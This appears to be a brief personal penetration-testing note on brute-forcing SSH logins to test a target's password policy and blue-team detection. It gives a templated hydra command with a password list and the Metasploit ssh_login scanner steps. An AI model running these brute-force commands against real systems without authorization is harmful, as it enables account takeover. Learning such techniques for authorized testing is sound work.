 We are looking at SSH. Normally its not lower hanging fruit, but we will gonna test it against password strength. We will perform penetration test even though it is hard, because we can try to find out their password policy and test if the blue team actually catches us working and being loud as fuck. The only way to actually exploit ssh is over brute force attacks which are loud

We're going to practice being loud
``hydra -l {user} -P {directory/to/passwords} {port}://{ip} -t 4 -V
-l user
-P passwords
-t threads(?)
-V verbosity


We can also open ssh login scanner for msfconsole.
``>msfconsole 
``>search ssh
``>use auxiliary/scanner/ssh/ssh_login
``>options
``>set {options}
``>exploit 
